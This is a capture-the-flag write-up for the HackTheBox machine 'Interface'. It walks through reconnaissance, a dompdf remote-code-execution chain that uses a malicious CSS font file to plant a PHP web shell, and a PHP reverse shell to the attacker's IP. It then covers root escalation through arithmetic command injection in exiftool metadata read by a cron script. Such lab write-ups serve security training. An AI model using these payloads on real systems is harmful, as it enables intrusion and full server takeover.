 # HackTheBox - Interface

## NMAP

```bash
Nmap scan report for 10.10.11.200
Host is up (0.38s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 7289a0957eceaea8596b2d2dbc90b55a (RSA)
|   256 01848c66d34ec4b1611f2d4d389c42c3 (ECDSA)
|_  256 cc62905560a658629e6b80105c799b55 (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-title: Site Maintenance
|_http-favicon: Unknown favicon MD5: 21B739D43FCB9BBB83D8541FE4FE88FA
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.14.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## PORT 80 (HTTP)

The webserver shows a note on the site about some maintenance

<img src="https://i.imgur.com/cewxBvP.png"/>

Fuzzing for files and directories using `dirsearch`

<img src="https://i.imgur.com/tSYCcYy.png"/>

It didn't find anything from fuzzing, on checking the response headers it has some sites being shown out of which there's `prd.m.rendering-api.interface.htb`

<img src="https://i.imgur.com/J8nK7vT.png"/>

<img src="https://i.imgur.com/dbN5vx3.png"/>
Here I tried fuzzing but again there were no results other than `vendor` so fuzzing there again to see if there's something accessible 

<img src="https://i.imgur.com/l7ihRo4.png"/>

<img src="https://i.imgur.com/rvaZyq7.png"/>
This found `/dompdf`  but it's giving us 403 

<img src="https://i.imgur.com/rET8jEC.png"/>

Since this is an api from what the subdomain tells us, let's try fuzzing on `/api` for POST requests

<img src="https://i.imgur.com/sFroW9J.png"/>

## Foothold

For sending a POST request to `html2pdf` I struggled a lot in finding a proper way to send POST requests and documentaiton didn't really included that, on dompdf's github page I found that it's using `html` parameter for converting html

https://github.com/dompdf/dompdf/wiki/About-Fonts-and-Character-Encoding

<img src="https://i.imgur.com/HQsEXg6.png"/>
With this request we'll be able to convert HTML to PDF

<img src="https://i.imgur.com/WM1wjXu.png"/>

Dompdf is vulnerable to remote code execution through loading css which then loads the font that is cached 

https://positive.security/blog/dompdf-rce

We have our css file which is loading the font that is actually a php file executing `phpinfo()` and from the article it explains that dompdf excepts any file extension as long as header belongs to a font file

```css
@font-face {
    font-family:'exploitfont';
    src:url('http://10.10.14.70:9001/exploit_font.php');
    font-weight:'normal';
    font-style:'normal';
  }
```

And we have our font file 

https://github.com/positive-security/dompdf-rce/blob/main/exploit/exploit_font.php

<img src="https://i.imgur.com/8yUDDaj.png"/>

We need to load a css with from our machine so sending a request with href

```html
<link rel=stylesheet href='http://10.10.14.70:9001/exploit.css'>"
```

<img src="https://i.imgur.com/gky9UDl.png"/>

<img src="https://i.imgur.com/ymxB8Eg.png"/>

To access the cached php font file we need to visit this url to access our cached font php file

```
http://prd.m.rendering-api.interface.htb/vendor/dompdf/dompdf/lib/fonts/fontname_fontweight/style_urlmd5hash.php
```

To calculate the hash of the url
`http://10.10.14.70:9001/exploit_font.php`

<img src="https://i.imgur.com/uNYTPqj.png"/>

So the url becomes

```
http://prd.m.rendering-api.interface.htb/vendor/dompdf/dompdf/lib/fonts/exploitfont_normal_3b08b785afb0c81b1ea0920e80175f2d.php
```

<img src="https://i.imgur.com/D6oIkFw.png"/>

We can now get rce by just adding `<?php system($_GET['cmd']);?>`

<img src="https://i.imgur.com/J84wfyi.png"/>

With php we can get reverse shell

```bash
http://prd.m.rendering-api.interface.htb/vendor/dompdf/dompdf/lib/fonts/exploitfont_normal_3b08b785afb0c81b1ea0920e80175f2d.php?cmd=php%20-r%20%27$sock=fsockopen(%2210.10.14.70%22,2222);$proc=proc_open(%22/bin/sh%20-i%22,%20array(0=%3E$sock,%201=%3E$sock,%202=%3E$sock),$pipes);%27
```

<img src="https://i.imgur.com/VP0I1D6.png"/>

## Privilege Escalation (root)

Running `pspy` we see a bash script `/usr/local/sbin/cleancache.sh` being ran as root user

<img src="https://i.imgur.com/cYuEdz2.png"/>

Checking the bash script

```bash
#! /bin/bash           
cache_directory="/tmp"
for cfile in "$cache_directory"/*; do
    if [[ -f "$cfile" ]]; then
        meta_producer=$(/usr/bin/exiftool -s -s -s -Producer "$cfile" 2>/dev/null | cut -d " " -f1)
        if [[ "$meta_producer" -eq "dompdf" ]]; then                                                                                                                                                                             
            echo "Removing $cfile"                                                                                                                                                                                               
            rm "$cfile"                               
        fi
    fi                                                                                                                                                                                                                                                                              
done 
```

It's running `/tmp` directory where it's checking for files and `exiftool` is looking for `Producer` tag in the files and comaparing it with `-eq` if it's dompdf and if it, it will delete that file

I checked the version of exiftool which was 12.55 and there wasn't any reported vulnerability for this version

<img src="https://i.imgur.com/E5Gps4u.png"/>

The vulnerability here was with in the script on the comparision

```bash
"$meta_producer" -eq "dompdf"
```

```bash
exiftool -Producer='a[$(id)]+dompdf' ./export.pdf
```

<img src="https://i.imgur.com/oXrsHsf.png"/>

<img src="https://i.imgur.com/J1Li94O.png"/>

Now we can't really use spaces here as the Producer meta data is being seperated with `cut` on a space so instead I created a bash script having the reverse shell

```bash
exiftool -Producer='a[$(/dev/shm/uwu.sh)]+dompdf' ./export.pdf
```

<img src="https://i.imgur.com/s1TfBHw.png"/>

After transffering the file, wait for the cronjob to trigger the script

<img src="https://i.imgur.com/xXFIUUc.png"/>
## References

- https://github.com/dompdf/dompdf/wiki/About-Fonts-and-Character-Encoding
- https://positive.security/blog/dompdf-rce
- https://github.com/positive-security/dompdf-rce
- https://www.vidarholen.net/contents/blog/?p=716
